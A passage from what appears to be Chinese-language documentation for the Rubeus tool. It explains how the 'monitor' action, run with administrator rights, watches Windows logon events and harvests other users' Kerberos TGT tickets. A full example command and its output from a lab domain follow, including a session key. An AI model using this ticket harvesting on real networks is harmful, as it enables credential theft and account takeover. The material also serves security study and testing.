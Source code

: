 
**注意这个操作必须运行于管理员权限下，以获取其他用户的 Kerberos 票据！**

### <a class="reference-link" name="monitor"></a>monitor

**monitor** 操作将监视 4624 登录事件，并提取新登录 ID(LUID)的任意 TGT 票据。**、interval** 参数（以秒为单位，默认为60）来指定检查事件日志的频率。**/filteruser:X** 参数用于指定只返回特定用户的票据。此功能在没有设置约束委派的服务器上特别有用。

当 **/fiteruser** 指定的用户（如果未指定，则任何用户）创建一个新的4624登录事件时，将输出所有提取到的 TGT KRB-CRED 数据。

```
c:Rubeus&gt;Rubeus.exe monitor /filteruser:dfm.a

   ______        _
  (_____       | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ | ___ | | | |/___)
  | |   | |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.0.0

[*] Action: TGT Monitoring
[*] Monitoring every 60 seconds for 4624 logon events
[*] Target user : dfm.a


[+] 9/17/2018 7:59:02 PM - 4624 logon event for 'TESTLAB.LOCALdfm.a' from '192.168.52.100'
[*] Target LUID     : 0x991972
[*] Target service  : krbtgt

  UserName                 : dfm.a
  Domain                   : TESTLAB
  LogonId                  : 10033522
  UserSID                  : S-1-5-21-883232822-274137685-4173207997-1110
  AuthenticationPackage    : Kerberos
  LogonType                : Network
  LogonTime                : 9/18/2018 2:59:02 AM
  LogonServer              :
  LogonServerDNSDomain     : TESTLAB.LOCAL
  UserPrincipalName        :

    ServiceName              : krbtgt
    TargetName               :
    ClientName               : dfm.a
    DomainName               : TESTLAB.LOCAL
    TargetDomainName         : TESTLAB.LOCAL
    AltTargetDomainName      : TESTLAB.LOCAL
    SessionKeyType           : aes256_cts_hmac_sha1
    Base64SessionKey         : orxXJZ/r7zbDvo2JUyFfi+2ygcZpxH8e6phGUT5zDbc=
    KeyExpirationTime        : 12/31/1600 4:00:00 PM
    TicketFlags              : name_canonicalize, renewable, forwarded, forwardable
    StartTime                : 9/17/2018 7:59:02 PM
    EndTime                  : 9/18/2018 12:58:59 AM
    RenewUntil               : 9/24/2018 7:58:59 PM
    TimeSkew                 : 0
    EncodedTicketSize        : 1470
    Base64EncodedTicket      :

      doIFujCCBbagAwIBBaE...(snip)...


[*] Extracted  1 total tickets
```
